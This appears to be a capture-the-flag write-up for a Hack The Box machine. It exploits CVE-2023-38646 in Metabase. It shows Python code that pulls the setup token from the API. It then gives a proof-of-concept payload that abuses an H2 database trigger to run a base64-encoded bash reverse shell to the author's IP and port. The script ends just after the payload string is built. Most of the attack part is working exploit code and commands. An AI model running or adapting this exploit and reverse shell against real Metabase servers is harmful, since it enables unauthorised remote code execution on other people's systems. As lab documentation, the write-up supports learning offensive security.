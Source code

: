 ```bash
[CVE-2023-38646] [http] [critical] http://data.analytical.htb/api/setup/validate
```

info took from: https://www.vicarius.io/vsociety/posts/unmasking-cve-2023-38646-analyzing-the-critical-metabase-security-vulnerability-and-its-implications-1

So to exploit the CVE, we need to obtain the token to beeing able to obtain a RCE.

Reading about the vulnerability I was able to retrivie the setup-token by simplying:

```python
import requests as r 
url = "http://data.analytical.htb/api/session/properties"
response = r.get(url,verify=False)
jsoned = response.json()
print(jsoned["setup-token"])

>>> 249fa03d-fd94-4d5b-b94f-b4ebf3df681f
```

Then I searched for the right POC online but none seemed to work

I came here in some troubles.

First of all i was getting

```
Vector arg to map conj must be a pair
```

as response from the page for no reason. I just inserted my htb ip to obtain a shell.

The problem is the base64 encode padding.

Since the bash remote command does the following:

```
bash -c {{echo,{encoded_command}}}|{{base64,-d}}|{{bash,-i}}
```

if `encoded_command` contains padding it will lead in `Vector arg to map conj must be a pair` error.
Maybe beacuse `=` are threted as special char remotely, we don;t know. Ayway I fixed adding 2 extra spaces to my 
reverse shell payload for removing base64 extra padding (`==`)

The rever shell becomes:


`bash -i >&/dev/tcp/10.10.16.75/1234 0>&1  `

And the full poc:


```python
import requests as r
import time
import base64

encoded_command = base64.b64encode("bash -i >&/dev/tcp/10.10.16.75/1234 0>&1  ".encode()).decode()

url = "http://data.analytical.htb/api/session/properties"
response = r.get(url, verify=False)
jsoned = response.json()
print("Obtained token" + jsoned["setup-token"])

before = time.time()

url = "http://data.analytical.htb/api/setup/validate"
headers = {'Content-Type': 'application/json'}
payload = f"zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {{echo,{encoded_command}}}|{{base64,-d}}|{{bash,-i}}')\n$$--=x"
```